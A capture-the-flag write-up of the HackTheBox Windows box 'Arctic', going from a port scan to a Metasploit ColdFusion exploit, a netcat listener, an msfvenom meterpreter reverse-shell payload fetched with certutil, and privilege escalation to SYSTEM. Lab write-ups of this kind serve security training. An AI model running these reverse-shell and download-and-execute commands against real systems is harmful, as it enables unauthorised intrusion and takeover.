 +++
title = "HackTheBox Writeup: Arctic"
date = "2019-08-22T01:01:33+02:00"
tags = [
  "hackthebox",
  "writeup",
  "ctf",
]
categories = [
  "hackthebox"
]
highlight = "true"
toc = "true"
+++

![1](/images/arctic-writeup/1.png)

Arctic is an easy rated Windows hacking challenge from HackTheBox, here is a writeup/walkthrough to go from boot to root. This box is all about publicly available exploits and known unpatched vulnerabilities.

---

## Enumeration

Let's start with a full port scan using nmap, the network mapper, using the options to enumerate service versions (-sV) and execute safe scripts (-sC):

![2](/images/arctic-writeup/2.png)

We only found two Windows Remote Procedure Call ports and a more unusual one, port 8500 with an unknown service running behind it. Let's connect to it from a web browser to see if we can see anything:

![3](/images/arctic-writeup/3.png)

As it turns out ti's just a web server, one that takes a long time to respond to each request so that with the unusual port number is probably what confused nmap. We are presented two different folders, opening CFIDE reveals something interesting, what seems to be a web application with an administration panel:

![4](/images/arctic-writeup/4.png)

Opening the administrator folder leads us to the login page of an Adove ColdFusion installation:

![5](/images/arctic-writeup/5.png)

One of the first things to do when a web app is found is to look for known vulnerabilities on exploit databases, in my case I'm going to search straight from Metasploit's modules, and in fact we find an interesting arbitrary file upload + code execution exploit for ColdFusion 8.0.1, the version that seems to be running on Arctic judging from the login page:

![6](/images/arctic-writeup/6.png)

---

## Exploitation: getting user.txt

All we need to do to launch this exploit is changing the port number and IP address of our target, however it doesn't seem to work as the exploit fails immediately, probably because of the long response times of the web server:

![7](/images/arctic-writeup/7.png)

In order to fix this we can set up Burp as a proxy to intercept the request responsible for the exploit and see what it does:

![7](/images/arctic-writeup/8.png)

By setting up Burp like this we are telling it to listen to localhost on port 9999 for connections, intercept the requests it receives, and redirect them to Arctic. This way we can tell the exploit to send the exploit to 127.0.0.1:9999 and Burp will intercept it to let us see how it works, in facts after changing the exploit target and re-launching it we receive an incoming connection containing the exploit itself:

![7](/images/arctic-writeup/9.png)

The exploit continues but what is important to note are the parts I enclosed in red rectangles: the first is what is supposed to be the file uploaded on the server. Let's scroll down the end of the exploit though to see where it actually creates a connection, because the payload used in this exploit, according to the settings on Metasploit, is a generic reverse shell:

![7](/images/arctic-writeup/10.png)

From this we can see that Metasploit already set the correct interface as the IP address to connect the box to, and it will connect to us on port 4444 so let's start a netcat listener on our attacking box to receive the connection:

    $ nc -lvp 4444

Then we can forward the request on Burp, and load the URL of the uploaded file, which will be located in /userfiles/file/VTBMWLQ.jsp:

![7](/images/arctic-writeup/11.png)

We can know where the file was uploaded because the /userfiles directory has been created by the web application when we uploaded the file and we can see it by connecting back to the root of the web server:

![7](/images/arctic-writeup/12.png)

Anyway we are the user "tolis" on the box, this means we can grab user.txt:

![7](/images/arctic-writeup/13.png)

---

## Dropping meterpreter

Now we have to think about becoming administrators on the box. First things first I run the "systeminfo" command to see what version of WIndows we are running and whether it's a 32 or 64 bits OS:

![7](/images/arctic-writeup/14.png)

So we are dealing with Windows Server 2008 R2 Standard, 64-bits. With this info we can pass from a normal cmd shell to a meterpreter shell to have access to all its useful modules. I'll be doing it by dropping an executable on the system (I tried the TrustedSec Unicorn method but for some reason it wouldn't work on this box even though it's supposed to? I dunno) crafted from msfvenom:

    $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.29 LPORT=9090 -f exe > arctic.exe

Then in order to drop it on the box we must start a local webserver on our local machine, I like to do it with PHP:

    $ php -S 0.0.0.0:8181 -t .


Now we can download the file from our machine using certutil.exe with a command like this:

    $ certutil.exe -urlcache -split -f "http://10.10.14.29:9090/arctic.exe" arctic.exe

This will save the executable in our current directory so we can run it and enjoy our meterpreter shell after starting a listener on Metasploit:

    $ arctic.exe

![7](/images/arctic-writeup/15.png)

![7](/images/arctic-writeup/16.png)

For some reason Metasploit failed to load its library containing all the commands so it would give me errors no matter what I tried to do, so I had to load stdapi manually:

    meterpreter> load stdapi

Then it started to work normally. By running "sysinfo" we can view some information about the system and our meterpreter session, one of these tells us we are actually running a x86 version of meterpreter on a 64 bits OS so this might give us inaccurate results when we run post exploitation modules:

![7](/images/arctic-writeup/17.png)

This can be fixed by listing the currently running processes on the box with the "ps" command, choosing a x64 process ID (PID) and using the "migrate" command to migrate our session on to that process, turning it into a 64 bits meterpreter session. In my case I chose PID number 3380, belonging to conhost.exe:

![7](/images/arctic-writeup/18.png)

And the process migration is successful as we can see from the output of sysinfo:

![7](/images/arctic-writeup/19.png)

---

## Privilege escalation to SYSTEM

Now we can finally use a very useful post exploitation module that looks for missing hot fixes making the system vulnerable to local privilege escalation exploits, the module is called post/multi/recon/local_exploit_suggester and we can use it by pressing Ctrl+Z to put our meterpreter session in the background, typing the following command on the msf console:

    msf> use post/multi/recon/local_exploit_suggester

And then specify on what session to run the module:

    msf> set session 1

And launch it:

![7](/images/arctic-writeup/20.png)

We find out that the box appears to be vulnerable to the schelevator exploit, a fairly common and reliable one, so we are going to use that one. Once again all we need is a "use" command to specify the exploit and a "set" to tell Metasploit on what session to run it, the exploit will create a new listener and session for us once it's done running, and we will have complete control over the box because we'll be SYSTEM:

![7](/images/arctic-writeup/21.png)

So we can grab the root flag and complete our mission:

![7](/images/arctic-writeup/22.png)

